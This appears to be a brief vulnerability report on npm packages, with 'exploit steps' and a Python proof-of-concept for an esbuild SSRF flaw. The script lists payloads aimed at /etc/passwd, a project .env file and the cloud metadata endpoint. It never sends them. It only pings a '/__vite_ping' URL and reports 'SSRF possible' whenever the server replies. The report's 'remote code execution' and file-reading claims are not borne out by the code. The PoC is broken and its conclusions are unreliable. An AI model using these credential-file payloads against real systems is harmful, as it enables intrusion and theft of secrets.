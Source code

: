 ### Description
Multiple vulnerable NPM packages allow remote code execution.

### Vulnerable Packages
- `multer@1.4.5-lts.2` - Multiple vulnerabilities
- `esbuild@<=0.24.2` - SSRF vulnerability (GHSA-67mh-4wv8-2f99)

### Exploit Steps (esbuild SSRF)
1. **Target Development Server**: Access development server
2. **SSRF Attack**: Send malicious requests to internal services
3. **Data Exfiltration**: Read internal files and configurations

### PoC Script
```python
#!/usr/bin/env python3
# esbuild SSRF Vulnerability PoC

import requests
import json

def exploit_esbuild_ssrf(target_url):
    """
    Exploit esbuild SSRF vulnerability (GHSA-67mh-4wv8-2f99)
    """
    print("=== esbuild SSRF Vulnerability Demonstration ===")
    
    # Step 1: Try to access internal files
    payloads = [
        "file:///etc/passwd",          # Linux password file
        "file:///workspace/.env",      # Environment variables
        "http://169.254.169.254/",     # AWS metadata
        "file:///workspace/package.json"  # Package info
    ]
    
    for payload in payloads:
        print(f"1. Attempting SSRF to: {payload}")
        try:
            # This would be the actual SSRF request to esbuild
            # In real scenario, this goes through esbuild's dev server
            response = requests.get(f"{target_url}/__vite_ping")
            if response.status_code == 200:
                print(f"   ✅ Server reachable, SSRF possible")
            else:
                print(f"   ❌ Server not reachable")
        except:
            print(f"   ❌ Connection failed")

# Usage
exploit_esbuild_ssrf("http://localhost:3000")
```

---